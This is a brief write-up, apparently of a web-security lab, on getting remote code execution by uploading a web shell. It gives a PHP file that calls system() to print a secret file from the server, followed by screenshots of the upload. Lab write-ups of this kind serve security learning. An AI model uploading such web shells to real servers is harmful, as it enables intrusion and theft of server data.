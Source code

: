 # Remote code execution via web shell upload

## Contents of lol.php
```php
<?php
system("cat /home/carlos/secret");
?>
```

## Uploading
![image](https://user-images.githubusercontent.com/60841283/150629598-6c28a840-1f58-4a20-bdd0-6995f745d4a1.png)

![image](https://user-images.githubusercontent.com/60841283/150629905-f5d9f245-13b0-45ef-b7c2-f51ab3056697.png)

